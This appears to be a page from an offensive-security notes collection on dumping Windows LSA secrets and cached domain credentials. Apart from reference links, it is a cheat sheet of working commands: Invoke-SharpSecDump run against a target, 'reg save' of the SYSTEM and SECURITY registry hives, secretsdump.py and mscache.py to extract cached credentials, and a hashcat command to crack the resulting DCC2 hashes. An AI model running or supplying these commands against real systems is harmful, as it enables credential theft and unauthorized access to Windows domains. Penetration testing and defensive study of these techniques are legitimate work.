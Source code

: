 ```yaml
---
description: Local Security Authority
---
```


# LSA

* [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)
* [https://github.com/laxa/SharpSecretsdump](https://github.com/laxa/SharpSecretsdump)




## SharpSecDump

* [https://github.com/G0ldenGunSec/SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)

Decrypt LSA secrets on target:

```
PS > Invoke-SharpSecDump -C "-target=127.0.0.1"
```




## MSCash2/MSCache2 (DCC2)

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

Domain cached credentials are stored within **LSA secrets** in `HKLM:\SECURITY` registry hive:

```
Cmd > reg save hklm\system system.hive
Cmd > reg save hklm\security security.hive
```



### secretsdump.py

Export registry hives and extract cached creds locally with `secretsdump.py`:

```
$ secretsdump.py -system system.hive -security security.hive LOCAL
```



### mscache.py

* [https://github.com/QAX-A-Team/mscache/blob/master/mscache.py](https://github.com/QAX-A-Team/mscache/blob/master/mscache.py)

Export registry hives and extract cached creds locally with `mscache.py`:

```
$ python mscache.py --system system.hive --security security.hive
```



### Crack

```
$ hashcat -m 2100 -O -a 0 -w 4 --session=dcc2 -o dcc2.out dcc2.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```
